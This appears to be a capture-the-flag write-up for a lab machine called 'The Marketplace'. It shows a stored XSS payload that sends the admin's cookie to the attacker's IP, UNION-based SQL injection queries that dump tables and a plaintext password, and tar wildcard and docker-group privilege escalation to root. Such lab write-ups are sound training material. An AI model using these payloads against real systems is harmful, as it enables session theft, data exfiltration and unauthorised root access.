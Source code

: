 # The Marketplace

This challenge exploits XSS, SQL injection and linux priv escalation.

## Reconnaissance

First to do some reconnaissance on the box, starting with nmap. Can be seen that there are 2 ports open that we can use namely http and ssh ports.

![nmap](./nmap.PNG)

Going to the website we get greeted to a home page with home, log in and sign up buttons along with some products already ip for sale.

Trying a couple of basic log ins like admin admin or admin password etc lead to nothing. We can however create an account. Now I have a messages tab at the top.

Looking at listings they can be reported to admins.

![Report](./Report.PNG)

Interesting that an admin will visit it.

I can also create a new listing.

## Flag 1

[Listing](./NewListing.PNG)

Some textboxes, can we XSS? I'll test with `<script>alert('xss');</script>`.

[xss](./xss.PNG)

Great! Now we can try and get hold of some admin access to the website using cookie grabbing.

Personally I didn't know how to do this from the start so I did some googling about and found an article ![here](https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2) which does basically what I want to do. This is how I amended it to this.

On the article there is the following xss script:

```html
<script type=“text/javascript”>document.location=“http://192.168.0.48:5000/?c=“+document.cookie;</script>
```

This essentially forwards the cookie to the webserver set up on that ip and port. Now I can just set up a simple http server with python listening to everything and just change the port to 8000 and the IP to my THM VPN IP.

Can set up the python server using `python3 -m http.server` and this will just capture anything coming through on you VPN IP on port 8000.

We then just create a listing with the XSS and then report it so the admin looks at it and we should have the admin cookie. Notice when you create the listing the page is now your directory, this doesnt help us so we need to know how it is being reported. If you just hover over another report listing we can see its in the format `http://<ip>/report/3` with 3 being the 3rd product on them name. well just amend to your XSS product number and report and watch the admin cookie come through.

Then just change your cookie and refresh, the first flag on the admin panel!

## Flag 2

Well now we have admin, before the cookie expires we need to do some looking about. Notice that on the page we are michael but we can see jake is also an admin. (Knowing the nature of CTFS we probably wana get into jakes account as we know ssh port is open).

![Panel](./Panel.PNG)

You can actually click on those boxes. I noticed that the URL changed and it seemed to be searching for information so I added something to the end of the URL and got an error. Googling the error revealed it was a MySQL error. Nice so from here can assume we need to SQL inject.

Be aware if you trigger a bad gateway your cookie expires and you'll need to grab another.

Now I noticed adding ` password` didn't kick me out but let me continue and when I changed the number to an account that doesnt exist I get an SQL error. Now by looking at the page I can see 4 different things being displayed. User ID or number, name, ID again and if it has admin so we know 4 fields being show so in order to union ill pad 3 other results.

One useful thing to know in MySQL is the `GROUP_CONCAT()` function which groups all data onto one line which is greate for output. ![Docs](./https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php). Same with `database()` which returns the database name.

![database](./Database.PNG)

Database name is marketplace.

```sql
UNION SELECT 1, GROUP_CONCAT(table_name), 3 ,4 FROM information_schema.tables WHERE table_schema='marketplace'
```
Produces:

![Tables](./Tables.PNG)

so now we have table names.

Lets have a peak at Users as this might contain some useful information for the ssh.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='users'
```

![ColmnsUsers](./ColumnsUsers.PNG)

Ok so look at passwords

![passwords](./passwords.PNG)

Hashes :( probs wont beable to crack them. Looking back the messages table seemed interesting.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='messages'
```

![messages columns](./messagescolumns.PNG)

lets look at messages content:

![messages](./messages.PNG)

aha a password in plaintext. Lets ssh jake.

![Flag2](./Flag2.PNG)

The next flag!

## Flag 3

This one is a little more involved but even still, all can be found using GTFO bins.

First of all i ran the standard find all SUID command

```shell
find / -perm /6000 -type f -executable 2>/dev/null
```

but this lead to nothing. Then I looked at the sudo using `Sudo -l` and saw this

![sudo](./sudo.PNG)

so michael can run backup.sh as sudo. Interesting.

Looking into backup.sh we see

```sh
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So this uses tar to archive files. Interesting. Looking at GTFO they have a tar section and it has a sudo exploit.

Just to make sure michael can run it I ran `chmod 777 backup.tar` so he can backup everything in theat directory.

The just create some files named `--checkpoint=1` and `--checkpoint-action=exec=sh` and this can be done by either using touch or vim. Just run the backup.sh and you'll have michael shell.

Make sure you run it as michael using `sudo -u michael /opt/backups/backup.sh` and you'll spawn the shell.

![michael shell](./mshell.PNG)

Now we have michael we can get root as we need to access root folder.

Doing an ID check we see this.

![ID](./ID.PNG)

hmmmm docker usually isn't there, again looking on GTFO bins it has a command u can just paste in and root!

![root shell](./rshell.PNG)

Just navigate to your root folder and collect your flag :)
